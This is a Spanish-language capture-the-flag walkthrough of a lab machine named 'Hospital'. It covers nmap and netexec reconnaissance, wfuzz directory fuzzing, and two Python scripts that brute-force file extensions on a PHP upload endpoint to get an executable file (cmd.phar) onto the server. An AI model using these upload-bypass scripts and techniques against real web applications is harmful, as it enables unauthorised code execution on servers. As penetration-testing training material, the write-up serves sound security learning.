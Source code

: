
-----
- TAG: #DOMINIOS #NETEXEC #PYTHON
----
- Empezamos creando nuestra carpeta Hospital en nuestra terminal, creamos las tres carpetas que necesitaremos para guardar la información 
```
mkt
```

- Empezamos con el proceso de  reconocimiento con **nmap** 
```
ping -c 1 10.10.11.241
```

- Realizamos una auditoria a la red para ver que puertos potenciales estan abiertos
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.241 -oG allPorts
```

- Extraemos la información de los puertos abiertos con 
```
extractPorts allPorts
```
   - Recordemos que con `locate .nse` podemos observar todos los scripts escritos en lua de nmap los cuales contiene categorias.
   - Con `locate .nse | xargs grep "categories"` podemos filtrar por categorias

- Realizamos el escaneo a los puertos abiertos y guardamos el output en el archivo **targeted**
```
nmap -p(puertos) -sCV 10.10.11.241 -oN targeted
```
 - Ahora el formato lo podemos ver en archivo grepeable y con estilo java con `cat taget -l java`
 - Vemos información como el la versión de Ubuntu corriendo por el puerto `22` y podemos tirar de **Launchpad**, con esto obtenemos información que corre un sistema **Lunar** (Puede que este corriendo un sub-sistema dentro de una maquina **Linux**)

## Jugando con Netexec
- Si no tenemos instalado realizamos el siguiente procedimiento de  [Instalación de Netexec](https://www.netexec.wiki/getting-started/installation/installation-on-unix)
- Lo tenemos guardado en /opt/Netexec
- Ahora podemos averiguar un poco mas o encontrar dominios, Para ello deberíamos estar en el directorio **/.local/bin**
```
pushd /opt/Netexec
poetry run netexec smb 10.10.11.241
```

 - Encontrando el dominio lo ingresamos en el **/etc/host** con la dirección ip de la maquina para que lo pueda leer nuestro sistema.
```
10.10.11.241 hospital.htb
```

- Podríamos enumerar un poco de rutas de la url con **wfuzz**
```
wfuzz -c --hc=404,403 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt https://10.10.11.241:443/FUZZ
```
   - Si refleja información o directorios podrias ingresar por la url, jugar un poco con mayúsculas y minúsculas con la palabra clave encontrada.

- Empezamos auditar la otra pagina **http** por el puerto **8080**
`http://hospital.htb:8080`
- Nos creamos un usuario y contraseña y nos logueamos 
- Empezamos auditar ciertas partes como información que nos de la url (usando **whatweb**) por ejemplo, interceptar información con **burpsuite**

----
- Creamos un archivo **extensions** con 
```
echo '.php , .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module' | tr ',' '\n' | sed 's/\.//g' | sed 's/ //' >> extensions
```
	 1. luego lo subimos a burpsuite en intruder en la opción load
	 2. De igual manera en "Grep - Extract" colocar 'load' selecionar /failed.php y poner ok
	 3. Luego de eso empezamos con el ataque de fuerza bruta para ver posibles rutas

- Creamos nuestro escript para detectar rutas validas.
```
<?php
  echo "Hola probando";
?>
```

 - Creamos un archi **.py** para enlistar los **.php** con el codigo de estado
```
#!/usr/bin/env python3

import requests
import signal
import sys
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID': 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8081'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()

    for extension in extensions:
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
	r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        print(r.status_code)

if __name__ == '__main__':
    fileUpload()
 
```
>Si cambiamos `print(r.estatus_code)` por:
>`if "failed" not in r.headers["Location"]:`
>	    `print(colored(f"\n[+] Extensión {extension}: {r.headers['Location']}", 'green'))`
- Podemos realizar la misma función que realizamos con **burpsuite** utilizando **python**, con esta ultima función nos enlista todas las rutas **succes.php**.
- En este punto con el siguiente código en **python** nos permitiría ejecutar código **.php** en la url con probando con las rutas encontradas:
  `http://hospital.htb:8080/uploads/cmd.phar`
```
#!/usr/bin/env python3

import requests
import signal
import sys
import time
from termcolor import colored
from pwn import *

def def_handler(sig, frame):
    print(colored(f"\n\n[!] Saliendo..\n", 'red'))
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

upload_url = "http://hospital.htb:8080/upload.php"
cookies = {'PHPSESSID' : 'gvsg96egu23t3hjdnlv1ssb6ve'}
burp = {'http': 'http://127.0.0.1:8080'}
extensions = [".php", ".php2", ".php3", ".php4", ".php5", ".php6", ".php7", ".phps", ".pht", ".phtm", ".phtml", ".pgif", ".shtml", ".htaccess", ".phar", ".inc", ".hphp", ".ctp", ".module"]

def fileUpload():
    f = open("cmd.php", "r")
    fileContent = f.read()
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando proceso de fuerza bruta")
	
	time.sleep(2)
	
    for extension in extensions:
	    p1.status(f"Probando con la extensión {extension}")
        fileToUpload = {'image': (f"cmd{extension}", fileContent.strip())}
        r= requests.post(upload_url, cookies=cookies, files=fileToUpload, allow_redirects=False)
        if "failed" not in r.headers["Location"]:
	        log.info(f"Extensión {extension}: {r.headers['Location']}")
if __name__ == '__main__':
    fileUpload()
```
